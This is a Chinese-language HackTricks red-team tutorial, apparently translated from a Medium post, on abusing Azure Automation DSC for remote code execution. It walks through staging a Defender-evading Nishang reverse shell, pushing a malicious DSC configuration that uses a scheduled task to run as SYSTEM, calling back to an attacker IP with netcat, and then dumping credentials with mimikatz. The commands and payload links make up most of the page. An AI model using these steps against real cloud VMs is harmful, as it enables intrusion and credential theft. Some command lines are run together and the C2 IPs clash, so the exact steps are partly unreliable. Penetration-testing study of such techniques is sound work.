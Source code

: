 # Az - 状态配置 RCE

<details>

<summary><strong>从零开始学习 AWS 黑客技术直到成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF 版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

**本文摘自** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备 <a href="#f0fa" id="f0fa"></a>

我将在远程服务器“40.84.7.74”上托管一个精简版的 Nishang Invoke-PowerShellTcp.ps1 负载，该服务器是 Kali 盒子。负载名称将是“RevPS.ps1”。为了防止 Nishang 脚本因任何原因（也许您宁愿将文件丢到磁盘上）被 Windows Defender 删除，我在这里有一个轻量级版本，您可以使用它来绕过 Defender：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。这将由 Kali 盒子上的一个简单 Python Simple Server 托管。

### 步骤 1 — 创建文件 <a href="#89de" id="89de"></a>

我们需要创建另一个 DSC 配置文件。模板可以在这里下载：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。这个配置文件将使用我们之前使用的相同的文件写入功能。这次，内容包括从我们的远程服务器下载和执行负载的代码。此外，我们正在使用 _ComputerManagementDsc_ 模块中可用的计划任务功能。计划任务功能将是执行的关键角色，并稍后为我们提供 SYSTEM 权限。

我们还将下载一个脚本，用于将我们的配置发布到 VM。它位于这里：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

这些文件将作为模板。**您需要用您正在使用的变量名和参数填充**。这包括资源名称、文件路径以及您正在使用的外部服务器/负载名称。请参考代码中的注释。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### 步骤 2 — 压缩配置文件 <a href="#c2c2" id="c2c2"></a>

创建了两个文件后，我们将 **‘reverse\_shell\_config.ps1’** 文件压缩，以便可以发送到存储账户
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### 步骤3 — 设置存储上下文 & 上传 <a href="#bed9" id="bed9"></a>

我们将再次设置我们的存储账户的上下文，这一步我已经完成了。我已经有了一个名为‘**azure-pentest**’的容器，所以我将在这里发布我的内容：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### 第4步 — 准备Kali盒子 <a href="#20fb" id="20fb"></a>

在我们的Kali盒子中，我们可以简单地使用_wget_来获取我们的PowerShell有效载荷。原始的反向Shell脚本位于此处：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

我们需要通过添加我们的参数来编辑反向 shell 脚本，以便 Windows VM 知道一旦执行后要连接到哪里。在我的情况下，我添加了以下内容：
```
```
RevPShell -Reverse 40.84.7.73 443
```
### 步骤 5 — 发布配置文件 <a href="#9ad6" id="9ad6"></a>

现在我们将运行我们的配置文件。我将我的设置为发布到桌面以便更好地可视化，但它几乎可以发布到任何地方。几分钟后，我们将看到反向 shell 脚本已经发布！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 步骤 6 — 托管有效载荷并设置监听器 <a href="#c55f" id="c55f"></a>

一旦我们发布配置，我们可以同时启动一个 Python SimpleHTTPServer 在 80 端口上托管有效载荷，以及一个 netcat 监听器以捕获连接：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
我们看到计划任务已经运行，我们的有效载荷被检索并以**SYSTEM**级别权限在内存中执行了！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### 总结 <a href="#1ec2" id="1ec2"></a>

这为我们打开了许多可能性。由于我们有一个以**SYSTEM**身份运行的shell，我们可以使用mimikatz转储凭据（取决于云资源的EDR成熟度，这可能有风险）。如果你转储了凭据，很有可能这些凭据可以在不同资源中重复使用。最后，一个重要的收获是，你现在有能力将这个配置应用到多个VM上，而不仅仅是一个VM。

就此，我们的Azure自动化DSC冒险就结束了！我希望你玩得开心，学到了很多，并继续用你自己的创造力扩展知识。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为英雄，就用</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果你想在**HackTricks中看到你的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享你的黑客技巧。

</details>
